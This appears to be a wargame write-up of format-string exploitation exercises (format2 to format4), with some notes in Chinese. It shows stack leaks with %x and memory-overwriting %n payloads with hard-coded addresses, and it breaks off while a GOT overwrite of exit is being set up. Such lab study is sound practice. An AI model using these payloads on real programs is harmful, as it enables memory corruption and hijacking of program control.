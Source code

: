 #### 0x09 format2
    mykey:
        objdump -t format2
        find target address:80496e4
        python -c "print '%x.'*2" | ./format2
        --------output:---------
        200.b7fd8420.
        ---------end------------
        python -c "print '%2\$x.'" | ./format2
        ------------output:-----------
        b7fd8420.
        -------------end--------------
        结论:支持\$
        python -c "print 'AAAABBBB'+'%x.'*10" | ./format2
        ---------output:----------
        AAAABBBB200.b7fd8420.bffff5c4.41414141.42424242.252e7825.78252e78.2e78252e.252e7825.78252e78.
        -----------end------------
        python -c "print '\xe4\x96\x04\x08BBBB%56x'+'%4\$n'" | ./format2
        output:
        you have modified the target :)

#### 0xA format3
    mykey:
        objdump -t format3
        find target address:80496f4
        python -c "print 'AAAABBBB'+'%x.'*2" | ./format3
        --------output:---------
        AAAABBBB0.bffff580.
        ------------end---------
        python -c "print 'AAAABBBB'+'%2\$x'" | ./format3
        --------output:--------
        AAAABBBBbffff580
        ----------end----------
        结论:支持\$
        python -c "print 'AAAABBBB'+'%x.'*13" | ./format3
        ---------output:--------
        AAAABBBB0.bffff580.b7fd7ff4.0.0.bffff788.804849d.bffff580.200.b7fd8420.bffff5c4.41414141.42424242.
        -----------end----------
        python -c "print '\xf4\x96\x04\x08BBBB%16930108x'+'%12\$n'" | ./format
        output:
        ...you have modified the target:)

#### 0xB format4
    mykey:
        gdb查找函数hello的地址(gdb找函数地址好像是不会变的,动态调试中的参数变量似乎会改变)
        gdb format4
        disas hello
        output:
        0x080484b4 <hello+0>:   push   %ebp
        查找exit()在GOT表中的位置
        objdump -TR format4
        ---------output:----------
        DYNAMIC RELOCATION RECORDS
        OFFSET   TYPE              VALUE 
        080496fc R_386_GLOB_DAT    __gmon_start__
        08049730 R_386_COPY        stdin
        0804970c R_386_JUMP_SLOT   __gmon_start__
        08049710 R_386_JUMP_SLOT   fgets
        08049714 R_386_JUMP_SLOT   __libc_start_main
        08049718 R_386_JUMP_SLOT   _exit
        0804971c R_386_JUMP_SLOT   printf
        08049720 R_386_JUMP_SLOT   puts
        08049724 R_386_JUMP_SLOT   exit